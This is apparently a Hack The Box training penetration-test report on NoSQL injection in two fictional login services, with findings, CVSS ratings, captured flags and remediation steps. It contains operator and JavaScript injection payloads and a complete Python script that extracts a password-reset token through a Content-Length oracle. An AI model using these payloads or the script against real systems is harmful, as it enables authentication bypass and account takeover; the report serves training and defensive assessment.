







# NOSQL Injection {#nosql-injection}

## Table of Contents {#table-of-contents}

* [NOSQL Injection](#nosql-injection)
    * [Table of Contents](#table-of-contents)
    * [Meta](#meta)
    * [Executive Summary](#executive-summary)
    * [Scope](#scope)
    * [Web Application Security Assessment Summary](#web-application-security-assessment-summary)
    * [Findings](#findings)
        * [NoSQL Injection (MangoAPI)](#2122f76e-a9fd-4d35-a21b-2050652c42ce)
        * [NoSQL Injection (MangoFile)](#f92ec80a-3d45-46af-9683-36321840fbef)
    * [Appendix](#appendix)
        * [Finding Severities](#finding-severities)
        * [Flags Discovered](#flags-discovered)
        * [Exploits](#exploits)

## Meta {#meta}

### HTB Logo


### Report Date

2026-07-15

### HTB Candidate

**Full Name**

Al-hassan Ahmed Habib

**Title**

Senior Web Penetration Tester 

**Email**

Habibhassan2930@gmail.com


### Engagement Contacts


| Company Contacts      |                         |                                                     |
| --------------------- | ----------------------- | --------------------------------------------------- |
| **Primary Contact**   | **Title**               | **Primary Contact Email**                           |
| Yelon Husk            | Chief Executive Officer | [yelon@royalflush.htb](mailto:yelon@royalflush.htb) |
| **Secondary Contact** | **Title**               | **Secondary Contact Email**                         |
| Zeyad AlMadani        | Chief Technical Officer | [zeyad@securedata.htb](mailto:zeyad@securedata.htb) |

| Assessor Contact  |            |                            |
| ----------------- | ---------- | -------------------------- |
| **Assessor Name** | **Title**  | **Assessor Contact Email** |
| Al-hassan Ahmed Hashem habib         | Senior Web penetration tester | Habibhassan2930@gmail.com                 |


### Statement of Confidentiality

The contents of this document have been developed by Hack The Box. Hack The Box considers the contents of this document to be proprietary and business confidential information. This information is to be used only in the performance of its intended use. This document may not be released to another vendor, business partner or contractor without prior written consent from Hack The Box. Additionally, no portion of this document may be communicated, reproduced, copied or distributed without the prior consent of Hack The Box.

The contents of this document do not constitute legal advice. Hack The Box's offer of services that relate to compliance, litigation or other legal interests are not intended as legal counsel and should not be taken as such. The assessment detailed herein is against a fictional company for training and examination purposes, and the vulnerabilities in no way affect Hack The Box external or internal infrastructure.


## Executive Summary {#executive-summary}

During the security assessment, the tester identified **two (2) critical-risk vulnerabilities** across the tested assets (**MangoAPI** and **MangoFile**). Both findings represent an immediate threat to the confidentiality and integrity of the organization's data assets.

### Key Findings & Business Impact

The identified security flaws are highly critical and share a common root cause:

* **Authentication Bypass & Database Exposure:** Both assets accept data inputted by users without checking or filtering it for malicious commands. The tester was able to exploit this lack of filtering to completely bypass the application login screens.

* **Direct Database Access:** This bypass granted the tester direct, unauthorized administrative access to the underlying databases of both **MangoAPI** and **MangoFile**.

An actual attacker exploiting these vulnerabilities could silently view, extract, or manipulate sensitive administrative and user records stored within both systems. This could lead to severe data theft, operational disruption, and potential reputational damage.


## Approach

 `MangoFile` and `MangoAPI` have invited 
 the tester to perform a targeted Web Application Penetration Test of their web applications to identify high-risk security weaknesses, assess their impact, document all findings in a clear, professional, and repeatable manner, and provide remediation recommendations.

During the formal security assessment conducted from **July 15, 2026, to July 15, 2026**, the tester evaluated two critical organizational assets: **MangoAPI** and **MangoFile**.

The assessment simulated different real-world threat scenarios to provide a comprehensive view of the security posture:

* **Assisted Security Review (Greybox):** The tester evaluated the **MangoAPI** asset, allowing for a deep analysis of potential coding flaws.

* **External Threat Simulation (Blackbox):** The tester evaluated the **MangoFile** asset from an outside perspective , simulating how an actual malicious actor would view the target.


## Scope {#scope}

The scope of this assessment was as follows:


| **URL**              | **Description**             |
| -------------------- | --------------------------- |
| MangoAPI   | Mango API     |
| MangoFile   | Mango authentication Website |


## Web Application Security Assessment Summary {#web-application-security-assessment-summary}

### Summary of Findings

During the course of testing, the tester uncovered a total of 2 of findings that pose a material risk to clients' web applications and systems. The below table provides a summary of the findings by severity level.
 

| Finding Severity |            |  
| ---------------- | ---------- | 
| **Critical**         |  **Total** |
| **2**            |  **2**     |

Below is a high-level overview of each finding identified during the course of testing. These findings are covered in depth in the [Technical Findings Details](#technical-findings-details) section of this report.


| Finding # | Severity Level | Finding Name                 |
| --------- | -------------- | ---------------------------- |
| 1.        | **Critical**       | _Nosql Injection_          |
| 2.        | **Critical**     | _Nosql Injection_       |


### Assessment Overview and Recomendations

### Key Findings & Business Impact

The assessment identified **two (2) critical-risk vulnerabilities** that directly threaten the confidentiality and security of both systems.

Both flaws stem from a lack of input filtering. Both **MangoAPI** and **MangoFile** accept user input without properly validating it. This structural flaw allowed the tester to submit crafted data that manipulated the application's logic, bypassing authentication screens and gaining direct, unauthorized access to the underlying databases.

The business risks associated with these findings include:

* **Unauthorized Data Access:** An attacker could exploit these flaws to silently view, extract, or manipulate sensitive administrative and user records stored within the databases of both assets.

* **Operational Disruption:** Because the database handles critical system information, unauthorized access could allow an attacker to alter or delete records, leading to system instability and operational downtime.


### Strategic Recommendations

To resolve these issues and strengthen the overall security posture, the organization should focus on the following strategic steps:

1. **Implement Strict Input Filtering:** Update the code on both **MangoAPI** and **MangoFile** to ensure all user-supplied data is thoroughly cleaned and verified before it is processed.

2. **Adopt Secure Coding Standards:** Provide development teams with training on input validation and secure database queries to prevent similar injection flaws from being introduced in future updates.

3. **Conduct Verification Testing:** Perform a targeted security re-test after the fixes are implemented to ensure the vulnerabilities have been completely and safely resolved.


## Findings {#findings}

### NoSQL Injection (MangoAPI) {#2122f76e-a9fd-4d35-a21b-2050652c42ce}

#### CWE

CWE-943

#### CVSS 4.0

CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H (9.8 - Critical)

#### Affected Component(s)

* MangoAPI Login API endpoint

#### External References

* https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet

#### Description & Cause

The web application Login Process processed user input in an insecure manner and was thus vulnerable to Nosql injection. In an nosql injection attack, special input values in the web application are used to influence the application's nosql statements to its database. Depending on the database used and the design of the application, this may make it possible to read and modify the data stored in the database, perform administrative actions (e.g., shut down the DBMS), or in some cases even gain code execution and the accompanying complete control over the vulnerable server.

#### Security Impact


An unauthenticated external attacker can exploit this vulnerability to:

* **Bypass Authentication:** Access the portal as any legitimate user, including administrative accounts, without knowing their password.

* **Data Exfiltration:** Retrieve highly sensitive data stored in the database, including user **emails**, **passwords**, and active **authentication tokens**.

* **Account Takeover:** Use the retrieved authentication tokens or cleartext credentials to maintain persistent access and compromise other services sharing those credentials.


#### Detailed Walkthrough

We identified an nosql injection vulnerability in the web application and were able to access stored data in the database as a result.

During Testing the tester found `/api/login` api endpoint.
the tester noticed that suppling  `[$ne]` or other nosql operators and a relevant value led to the tester having access to `pentest` account{width="auto"}

**Exploitation**
the tester checked all other account for other users by using `[$regex]` and Fuzzing for first letter in username

{width="auto"}

after using intruder , 2 accounts are revealed 

**username**:**pentest**{width="auto"}
**username**:**admin**{width="auto"}

Leading to obtaining the flag **`HTB{7dd8c551035ea609a7f4fda61d4a23de}`**


#### Patching and Remediation

* Avoid using raw query operators directly from user input (e.g., do not pass an entire request object `req.body` or query object directly into `find()`).

* Use a schema-validating Object Document Mapper (ODM) like **Mongoose** to enforce strict typecasting (this prevents a string input from being parsed as an object/dictionary like `{"$ne": ""}`).

* Sanitize inputs using libraries specifically designed to strip Mongo operators (e.g., `mongo-sanitize` for Node.js).

* Disable Javascript execution in the NoSQL database configuration if `$where` or map-reduce functions are not required.


### NoSQL Injection (MangoFile) {#f92ec80a-3d45-46af-9683-36321840fbef}

#### CWE

CWE-943

#### CVSS 4.0

CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H (9.8 - Critical)

#### Affected Component(s)

* MangoFile Login Endpoint

#### External References

* https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet

#### Description & Cause

The web application Login logic processed user input insecurely and was thus vulnerable to NoSQL injection. In a NoSQL injection attack, special input values in the web application are used to influence the application's NoSQL statements to its database. Depending on the database used and the design of the application, this may make it possible to read and modify the data stored in the database, perform administrative actions (e.g., shut down the DBMS), or in some cases even gain code execution and the accompanying complete control over the vulnerable server.

#### Security Impact


An unauthenticated external attacker can exploit this vulnerability to:

* **Bypass Authentication:** Access the portal as any legitimate user, including administrative accounts, without knowing their password.

* **Data Exfiltration:** Retrieve highly sensitive data stored in the database, including user **emails**, **passwords**, and active **authentication tokens**.

* **Account Takeover:** Use the retrieved authentication tokens or cleartext credentials to maintain persistent access and compromise other services sharing those credentials.


#### Detailed Walkthrough

We identified an NoSQL injection vulnerability in the web application and were able to access stored data in the database as a result.

During Testing , the test noticed when supplying a valid username the `Content-Length` of the response is `2191` {width="auto"}
but when the username supplied is non-existent then the `Content-Length` is 2190
{width="auto"}

also the tester noticed that `Content-Length` is 2191 when using 
`" || true || ""=="` javascript injection payload
proving the server is vuln to NoSQL injection
user was then able to obtain user password and reset token
{width="auto"}

reset token was obtained via script [SQLI-script.py] 


```python
import requests
import string
import sys
import urllib3
from concurrent.futures import ThreadPoolExecutor, as_completed

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# ---- Configuration ----------------------------------------------------
TARGET_URL = "<TARGET-URL>/login"
REFERER = "<TARGET-URL>/login"
ORIGIN = "<TARGET-URL>"

CHARSET = string.ascii_lowercase + string.ascii_uppercase + string.digits + string.punctuation
MAX_LEN = 70
TIMEOUT = 10
THREADS = 50

# Content-Length oracle -- confirm/adjust these against the real target
LEN_TRUE = 2191
LEN_FALSE = 2190

# Burp proxy (set True to debug through Burp)
USE_BURP = False
BURP_PROXY = "http://127.0.0.1:8080"
# ------------------------------------------------------------------------

BASE_HEADERS = {
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:152.0) Gecko/20100101 Firefox/152.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.9",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": ORIGIN,
    "Connection": "keep-alive",
    "Referer": REFERER,
    "Upgrade-Insecure-Requests": "1",
    "Priority": "u=0, i",
}


def make_session() -> requests.Session:
    s = requests.Session()
    s.headers.update(BASE_HEADERS)
    if USE_BURP:
        s.proxies = {"http": BURP_PROXY, "https": BURP_PROXY}
        s.verify = False
    return s


def build_body(position: int, char: str) -> bytes:

    body = (
        f'username="+||+this.token[{position}]==\'{char}\'+||+"a"%3d%3d"'
        f'&password=asd'
    )
    return body.encode()


def send(session: requests.Session, position: int, char: str) -> requests.Response:
    body = build_body(position, char)
    return session.post(TARGET_URL, data=body, timeout=TIMEOUT, allow_redirects=False)


def check_success(resp: requests.Response) -> bool:
    length = resp.headers.get("Content-Length")
    length = int(length) if length is not None else len(resp.content)
    return length == LEN_TRUE


def test_char(position: int, char: str):
    session = make_session()
    try:
        resp = send(session, position, char)
    except requests.RequestException as e:
        return char, False, str(e)
    return char, check_success(resp), None


def find_char_at_position(position: int) -> str | None:
    """Fire off all charset candidates for this position concurrently,
    return the first one whose response matches the true-oracle."""
    with ThreadPoolExecutor(max_workers=THREADS) as executor:
        futures = {executor.submit(test_char, position, ch): ch for ch in CHARSET}
        for future in as_completed(futures):
            char, success, err = future.result()
            if err:
                print(f"[!] Request error pos={position} char={char!r}: {err}")
                continue
            if success:
                # Cancel remaining futures -- we found our character
                for f in futures:
                    f.cancel()
                return char
    return None


def dump_password() -> str:
    found = ""
    print(f"[*] Starting blind injection password extraction ({THREADS} threads)...")

    for pos in range(MAX_LEN):
        matched_char = find_char_at_position(pos)
        if matched_char is None:
            print(f"[*] No character matched at position {pos}. Extraction complete.")
            break
        found += matched_char
        print(f"[+] Position {pos}: '{matched_char}'  -> current: {found}")
    return found


def calibrate():

    session = make_session()
    r = send(session, 0, "\x01")  # unlikely char -> should be false
    print(f"[calibrate] unlikely char -> status={r.status_code} "
          f"content-length={r.headers.get('Content-Length')} "
          f"(actual body len={len(r.content)})")


if __name__ == "__main__":
    if len(sys.argv) > 1 and sys.argv[1] == "calibrate":
        calibrate()
        sys.exit(0)

    password = dump_password()
    print(f"\n[*] Extracted password: {password!r}")
```
reset-token was then used to reset password and access victim account revealing the flag 
**`HTB{924eedfac9bfc3b8bae2e90e00301e6c}`**

#### Patching and Remediation

* Avoid using raw query operators directly from user input (e.g., do not pass an entire request object `req.body` or query object directly into `find()`).

* Use a schema-validating Object Document Mapper (ODM) like **Mongoose** to enforce strict typecasting (this prevents a string input from being parsed as an object/dictionary like `{"$ne": ""}`).

* Sanitize inputs using libraries specifically designed to strip Mongo operators (e.g., `mongo-sanitize` for Node.js).

* Disable Javascript execution in the NoSQL database configuration if `$where` or map-reduce functions are not required.


## Appendix {#appendix}

### Finding Severities {#finding-severities}

Each finding has been assigned a severity rating of critical, high, medium, low or info. The rating is based off of an assessment of the priority with which each finding should be viewed and the potential impact each has on the confidentiality, integrity, and availability of data.

| Rating   | CVSS Score Range |
| -------- | ---------------- | 
| Critical | 9.0 – 10.0       |
| High     | 7.0 – 8.9        |
| Medium   | 4.0 – 6.9        |
| Low      | 0.1 – 3.9        |
| Info     | 0.0              |


### Flags Discovered {#flags-discovered}


| Flag # | Application           | Flag Value | Method Used           |
| ------ | --------------------- | ---------- | --------------------- |
| 1.     | **Mango-API** | **HTB{7dd8c551035ea609a7f4fda61d4a23de}**   | **Nosql Injection** |
| 2.     | **MangoFile**  |     **HTB{924eedfac9bfc3b8bae2e90e00301e6c}**      |              **Nosql Injection**         |


### Exploits {#exploits}

The exploit scripts used during this penetration test are attached as files in the `exploits` directory of the submitted `zip` file.

custom script `SQLI-script.py` were used to exploit `MangoFile` Website and dump user reset password token leading to ATO of the victim account


